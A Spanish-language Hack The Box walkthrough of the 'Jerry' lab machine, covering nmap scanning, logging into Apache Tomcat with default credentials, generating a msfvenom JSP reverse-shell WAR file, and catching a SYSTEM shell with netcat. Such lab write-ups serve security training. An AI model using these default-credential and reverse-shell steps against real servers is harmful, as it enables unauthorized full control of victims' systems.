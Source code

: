 ```yaml
---
layout: post
title: HTB Jerry
date: '2023-11-05 16:50:41 -0500'
categories: [HTB, Easy]
tags: [Web, Tomcat, CredByDefault, MSFvenom,FileUpload] 
image:
  path: /jerry/preview.png
  alt: Jerry
---
```


## Resumen
![logo](/jerry/logo.png){: .right w="200" h="200" }

**Jerry** es una máquina bastante amigable para aquellos que están empezando en Hack The Box. En esta máquina, es necesario realizar una enumeración dentro de un sitio web alojado en **Apache Tomcat** para darse cuenta de que se están utilizando **credenciales por defecto**, información que el propio sitio web revela. Después de este descubrimiento, solo hace falta subir un archivo **.war** que será interpretado por el servidor, lo que resulta en la obtención de una shell reversa con **máximos privilegios** dentro de **Windows**.


## Escaneo de Puertos

Para empezar, Se realiza un **ping** para verificar si existe conexión con la máquina.

```bash
ping -c 1 10.10.10.95
PING 10.10.10.95 (10.10.10.95) 56(84) bytes of data.
64 bytes from 10.10.10.95: icmp_seq=1 ttl=127 time=232 ms

--- 10.10.10.95 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 232.199/232.199/232.199/0.000 ms
```
{: .nolineno}


Ahora es posible realizar un escaneo de puertos con **Nmap** para conocer qué puertos están activos dentro de la máquina y con eso poder descubrir que servicios se encuentran corriendo en cada uno.

```bash
❯ nmap -p- --min-rate 2000 10.10.10.95 -Pn -oG ports

Nmap scan report for 10.10.10.95
PORT     STATE SERVICE
8080/tcp open  http-proxy
```
{: .nolineno}


Sobre el puerto, es posible realizar un escaneo más detallado para obtener más información sobre el servicio que se encuentra en ejecución.
```bash
❯ nmap -p8080 -sVC 10.10.10.95 -Pn -oN versions

Nmap scan report for 10.10.10.95
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
```
{: .nolineno}

## Enumeración

Con la información obtenida, se procede a revisar el sitio web, y al hacerlo, se observa un servicio de **Apache Tomcat**

![web](/jerry/web.png)

>Apache Tomcat es un contenedor de servlets que se puede usar para compilar y ejecutar aplicaciones web realizadas en Java. Implementa y da soporte tanto a servlets como a páginas JSP (Java Server Pages) o Java Sockets.
{: .prompt-info}


Al intentar acceder al panel de administrador, se observa la presencia de un formulario para el ingreso.

![formulario](/jerry/formulario.png)

Si se llena de forma errónea el formulario, se puede observar un mensaje de error que muestra las **credenciales por defecto** del servicio. Por lo tanto, se puede intentar utilizarlas para realizar el inicio de sesión.
![error](/jerry/error.png)


## Explotación


Al probarlas, se confirma que efectivamente se están utilizando esas credenciales, lo que permite ingresar al servicio como **administrador**

![validCreds](/jerry/validCreds.png)


![admin](/jerry/admin.png)


Ahora, al contar con **privilegios de administrador** dentro de la web, es posible subir un archivo **.war** para obtener una **shell reversa**.

![FileUpload](/jerry/fileupload.png)

Pero para esto, es necesario crear el archivo que será interpretado por el servidor. Para ello, se puede hacer uso de **msfvenom** mediante el siguiente **comando**:

```bash
❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.61 LPORT=4444 -f war -o jerry.war

Payload size: 1101 bytes
Final size of war file: 1101 bytes
Saved as: jerry.war
```
{: .nolineno}


Ahora solo queda cargar el archivo, ponerse a la escucha con `nc` y ejecutarlo dándole clic a su enlace para obtener la **shell reversa**.

![file](/jerry/file.png)

Se pone a la escucha con el siguiente comando:

```bash
nc -lvp 4444
```
{: .nolineno}

Y se da click dentro del enlace se gana una shell reversa.

![clic](/jerry/link.png)


```bash
 nc -lvp 4444
listening on [any] 4444 ...
10.10.10.95: inverse host lookup failed: Unknown host
connect to [10.10.14.61] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

C:\apache-tomcat-7.0.88>
```
{: .nolineno}

Dado que el servicio se está ejecutando con máximos privilegios gracias a nc authority, solo sería necesario buscar las flags, ya que se cuenta con acceso completo al sistema.


